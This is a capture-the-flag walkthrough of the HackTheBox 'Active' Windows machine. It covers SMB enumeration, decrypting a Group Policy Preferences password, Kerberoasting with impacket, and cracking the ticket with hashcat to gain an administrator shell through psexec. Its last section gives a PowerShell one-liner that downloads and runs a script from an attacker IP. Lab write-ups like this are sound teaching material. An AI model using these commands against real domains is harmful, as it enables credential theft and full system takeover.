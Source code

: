 ```yaml
---
title: "Active - HTB"
categories: [HackTheBox,Easy]
tags: [HTB,Easy,Windows,Kerberoasting,Kerberos,AD,SMB]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Active.png
---
```


This box is a Windows Easy. We’ll start enumerate SMB, where the `Replication` share will find. There’re a file that contains a user and a pass encrypted with GPP. After to decrypt the pass, we will do a **Kerberoasting Attack.** We’ll get the hash Administrator user.

**Have a good time!**

# Introdution

[https://app.hackthebox.com/machines/Active](https://app.hackthebox.com/machines/Active)

* **IP:** 10.10.10.100

## Diagram

```mermaid
graph TD
  Enumeration --> B(Enum_SMB) --> 
  C[/Replication/] --> |GPP| D[User: SVC_TG] --> 
  Exploration --> |Kerberoasting Attack| E(Administrator)
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled.png){: .shadow}

The `active.htb` domain was found, let’s insert in `/etc/hosts`

## SMB - TCP 139/445

Lets enumerate the SMB using the `smbclient`*.*

```bash
smbclient -N -L //10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%201.png)

The `Replication` share was found and we can access it.

### Share Replication - SMB

```bash
smbclient -N //10.10.10.100/replication
```

There’re some files interesting.

- ***/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml***

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%202.png)

We have userName and a probable password.

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

> **Senhas GPP**
> 
> Whenever a new Group Policy Preference (GPP) is created, there is an xml file created on the SYSVOL share with this configuration data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before storing it as `cpassword`. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!
> 
> Microsoft released a patch in 2014 that prevented administrators from putting passwords in GPP. But this patch does nothing about any of those breakable passwords that were already there, and as I understand it, pentesters are still regularly encountering them in 2018. For more details, check out this [AD security post](https://adsecurity.org/?p=2288).
> 
{: .prompt-info }

## Decrypting the GPP Password

Since the key is know, I can decrypt the pass. Kali have a tool called `gpp-decrypt` that It’ll this.

`gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

We found the pass for user **active.htb\SVC_TGS** : **GPPstillStandingStrong2k18**

## Enumerating SMB

With the username and password, let's enumerate the smb with the credential.

```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%203.png)

We gain access to three more shares: `NETLOGON, SYSVOL, Users`

### Shares Users - SMB

```bash
smbclient //10.10.10.100/Users -U "active.htb\\SVC_TGS%GPPstillStandingStrong2k18"
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%204.png)

The `Users` share is the directory `C:\Users`

In `/users/SVC_TGS/Desktop/`, We found the `user.txt`, which contains a flag. 

# Exploration

## Kerberoasting

We'll use the **active.htb/SVC_TGS**:`GPPstillStandingStrong2k18` credentials to get a list of service usernames that are associated with regular user accounts.

We found a user: Administrator

```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%205.png)

It also gives me the ticket, which I can try to brute-force decrypt to get the user's password:

```bash
cat GetUserSPNs.out
```

Cracking the hash:

```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%206.png)

We found the pass to **Administrator**:`Ticketmaster1968`

### Getting the Shell

With the credencials found, We log through **psexec**:

```bash
impacket-psexec active.htb/administrator@10.10.10.100
```

We have shell root.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%207.png)

**HABEMUS!!!**

# Post Exploration

## **Spawn Shell**

```powershell
powershell -c iex(new-object system.net.webclient).downloadstring('http://10.10.14.4/powercat.ps1')
```
